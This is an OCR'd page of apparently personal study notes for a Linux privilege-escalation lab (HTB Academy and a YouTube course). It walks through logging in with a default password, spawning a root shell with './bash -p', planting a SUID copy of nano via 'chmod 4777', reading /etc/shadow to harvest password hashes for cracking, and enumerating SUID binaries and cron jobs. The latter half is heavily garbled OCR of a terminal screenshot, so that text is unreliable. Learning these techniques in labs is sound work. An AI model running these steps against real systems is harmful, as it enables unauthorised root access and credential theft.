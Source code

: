     To get the amount of free disk available type sudo df -h and 

    Type ssh -l <user> <T_IP> 

    In the <username>@<IP> password field enter toor and press Enter.  

    In the terminal window type cd /home and then ls 

    Type ./bash -p, to run bash in the target machine. 

    Type id and whoami to check 

    Now we have got root privileges on the target machine, we will install nano editor in the target machine so that we can exploit root access 

    Type cp /bin/nano .  

    Type chmod 4777 nano 

    Type ls -la nano 

    To navigate to home directory, type cd /home and press Enter. Now, type ls and press Enter to list the contents in home directory. 

    To open the shadow file from where we can copy the hash of any user, type ./nano -p /etc/shadow and press Enter. 

    /etc/shadow file opens showing the hashes of all users. 

    You can copy any hash from the file and crack it using john the ripper or hashcat tools, to get the password of desired users. 

    Press ctrl+x to close the nano editor.  

    In the terminal, type cat /etc/crontab and press Enter, to view the running cronjobs. 

    Type find / -name "*.txt" -ls 2> /dev/null and press Enter to view all the .txt files on the system 

    Type find / -perm -4000 -ls 2> /dev/null and press Enter to view the SUID executable binaries. 

 

 

 

 

 

YOUTUBE (PENTESTER GUY) 

 

PART I : PRIV ESC BASIC 

 

Horizontal privilege escalation 

 

    Login using: ssh <name>@<t_IP> -p <port_given> 

 
httqsi;academv.hackthebox.c 100% Started ChatGPT4 Comparvi' Import HTB ACADEMY Quest i ons youtube.com is now full screen authenticity cf can't be established. EcnsA key fingerprint is ¯Are you Sure you to continue connecting yes warning: Permanently added '[34.237.48.481:50706' to the list of knoun hosts. xelcome to Ubuntu 28.84.1 L TS (GNU/Linux 5.10.e-1E-amd64 Ch eat S h the belt;"" to complete this Section and earn Cubes' Reset rget Target: 94.237/18.850706 Life Left: 86 minutes ssH to 94237.4848 •aith user "user' • and password SSH into the server prey"ded credentials, and use the to specify port Once login. try to find a Way to move to to get the flag in ' txt'. Submit gain trytofinda get the 'lag in ' Submit your Hint • Documentation: • Management: • Support; https:/,'help.ubuntu.cun https;/,'landsca;e.carwnical_ ccm https;//ubuntu.comdadvantage This system has been minimized by removing packages and content that are not required on a system that users do not log into. To restore this content, you can run the •unminimize• ccmand. The programs with the Llbuntu system are free software; the exact distribution for each program are described in the files in / usoshare/doc/*/cgpyright. Libuntu canes with ABSOLUTELY WARRANTY. to the extent penitted by applicable user 1 use rlpng -535045 -get tings tartedp rivesc- hzq19 -5b6695dcc4- zgvdd —$
